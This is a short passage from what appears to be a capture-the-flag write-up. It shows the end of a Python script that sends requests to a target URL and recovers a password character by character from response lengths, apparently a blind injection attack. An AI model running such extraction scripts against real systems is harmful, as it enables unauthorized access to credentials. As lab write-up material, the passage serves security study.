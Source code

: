 ```python

      # print(payload)
      res = requests.post(url, data=payload)
    
      if len(res.text) < 600:
        password += c
        print(password) 
        break

    else:
      print("Not found at position: {}".format(i))
      password += '_'
      print(password)


exploit()
``` 

Run the above script to get the password. Password randomly changes after every restart.
Here is the output password generated by the exploit code - 

![](/images/cool/pass.png)
